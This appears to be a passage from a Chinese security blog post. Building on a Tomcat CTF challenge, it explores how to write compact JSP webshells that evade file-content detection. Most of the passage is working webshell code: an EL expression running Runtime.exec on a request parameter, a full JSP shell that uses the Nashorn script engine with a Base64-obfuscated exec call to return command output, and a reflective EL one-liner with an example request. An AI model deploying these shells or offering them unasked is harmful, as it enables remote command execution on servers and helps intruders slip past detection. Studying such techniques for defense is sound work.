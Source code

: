 通过这种方式我们可以获得ClassLoader修改一些tomcat的属性，最终达到利用session写shell的目的，当然到目前这道题目只是完成了一小部分，后面还涉及到如何使Tomcat reload 并实现持久化贮存session的问题等等，各位感兴趣的可以看一下长亭官方的wp。

​ **这道题目使用EL表达式进行bypass的方式引起了我的注意，通过精心构造EL表达式我们是否能实现更加精简且具有一定bypass能力的jsp webshell？**

### 0x01 简单尝试与回显问题

我们使用开头提到的EL表达式来试一试：

```
${Runtime.getRuntime().exec(param.cmd)}

```

<br/> 执行是没有问题的，但是我们要制作webshell，没有回显是肯定不行的，这里我联想到了前段时间学习webshell免杀的一种构造方式：**调用ScriptEngine来执行js**。

> 
我们使用ScriptEngine构造出的webshell是这样的：
<pre><code>&lt;%@ page import="javax.script.ScriptEngineManager" %&gt;
&lt;%@ page import="java.util.Base64" %&gt;
&lt;%@ page import="java.io.BufferedReader" %&gt;
&lt;%@ page import="java.io.InputStreamReader" %&gt;
&lt;%@ page contentType="text/html;charset=UTF-8" language="java" %&gt;
&lt;%
    String s = "s=[3];s[0]='cmd';s[1]='/c';s[2]='";
    String cmd = request.getParameter("cmd");
    String rt = new String(Base64.getDecoder().decode("JztqYXZhLmxhbmcuUnVudGltZS5nZXRSdW50aW1lKCkuZXhlYyhzKTs="));
    Process process = (Process) new ScriptEngineManager().getEngineByName("nashorn").eval(s + cmd + rt);
    InputStreamReader reader = new InputStreamReader(process.getInputStream());
    BufferedReader buffer = new BufferedReader(reader);
    s = null;
    while ((s = buffer.readLine()) != null) {
        response.getWriter().println(s);
    }
%&gt;
</code></pre>
很好理解，获取nashorn JavaScript引擎实现命令执行。


想到这种方法是因为我们可以尽可能的减少webshell中的代码量，通过传递指定的js代码来执行脚本，从而更好地绕过文件内容检测。

### 0x02 EL + ScriptEngine

首先我们在webshell中通过反射配合动态传递参数的方式获取Engine并执行eval。

```
//test.jsp
${''.getClass().forName(param.spr1).newInstance().getEngineByName("javascript").eval(param.spr2)}

```

首先反射获取ScriptEngineManager对象：

```
test.jsp?spr1=javax.script.ScriptEngineManager

```
